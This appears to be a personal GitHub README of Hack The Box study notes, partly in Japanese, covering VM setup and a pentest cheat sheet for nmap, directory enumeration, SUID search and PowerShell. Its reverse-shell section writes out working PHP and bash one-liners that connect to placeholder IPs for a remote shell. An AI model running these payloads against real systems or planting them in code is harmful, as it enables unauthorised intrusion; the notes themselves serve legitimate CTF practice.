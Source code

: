 # HTB-Note
note about Hack The Box

<!-- TOC -->

- [HTB-Note](#htb-note)
  - [Virtual Box Setting](#virtual-box-setting)
    - [Run GuestAddictionsCD](#run-guestaddictionscd)
    - [Open VPN](#open-vpn)
  - [CheatSheet](#cheatsheet)
    - [nmap](#nmap)
      - [nmap script engine](#nmap-script-engine)
    - [MSFvenom](#msfvenom)
    - [Directory Enumlation](#directory-enumlation)
    - [Reverse Shell](#reverse-shell)
    - [Privilege escalation](#privilege-escalation)
      - [find SUID](#find-suid)
    - [PowerShell](#powershell)
    - [Password Crack](#password-crack)

<!-- /TOC -->

## Virtual Box Setting

### Run GuestAddictionsCD

```Shell
cd /media/
sudo mount /dev/cdrom /media/cdrom1
cd /cdrom1
sudo ./VBoxLinuxAdditions.run 
reboot
```

### Open VPN

- Download ovpn file **for VIP account**

```Shell
sudo openvpn --config ./Desktop/yufujioka.ovpn
```

## CheatSheet

### nmap

- バージョン検出
```shell
nmap -sV rhost
```
- OS検出
```shell
nmap -O rhost
```
- OS 検出 + バージョン検出
```shell
nmap -A rhost
```
- ping 送らない
```shell
nmap -Pn rhost
```

#### nmap script engine

- Vulnerability 検出
```shell
nmap --script=vuln -p rport1,rport2 rhost
```

- DNS

### MSFvenom

- [MSFvenom ~ ペイロード早見表 ~](https://qiita.com/mr-wacker/items/0ec926951ffa5a4d197c)

### Directory Enumlation

- Gobuster options
  - [Gobuster Cheatsheet](https://redteamtutorials.com/2018/11/19/gobuster-cheatsheet/)
  - quick play
```
gobuster dir -t 100 -u targetUrl -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o outfile
```

- [ffuf](https://github.com/ffuf/ffuf)
  - quick play
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u targetUrl/FUZZ
```


### Reverse Shell

- receive
```
nc -lnvp 1234
```

- [A tiny PHP/bash reverse shell.](https://gist.github.com/rshipp/eee36684db07d234c1cc)
```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");
```
  - Direct input
```php
php -r '$sock=fsockopen("your.server.ip.address",8888);exec("/bin/bash -i <&3 >&3 2>&3");'
```

- PHP fsockopen
```php
<?php $s=fsockopen("10.0.0.1",1234);exec("sh<&3>&3 2>&3");?>
```
  - Direct input
```php
php -r '$s=fsockopen("10.0.0.1",1234);exec("sh<&3>&3 2>&3");'
```

- when i get "must be run from a terminal"
```python
echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
python /tmp/asdf.py
```

### Privilege escalation

#### find SUID 

```shell
find / -perm -u=s -type f 2>/dev/null
```

### PowerShell

- whoami
```
$env:UserName
```
- 論理ドライブの一覧を表示
```
Get-PSDrive
```
- カレントドライブの移動
```
Set-Location C:
```

### Password Crack

- [Free Password Hash Cracker](https://crackstation.net/)
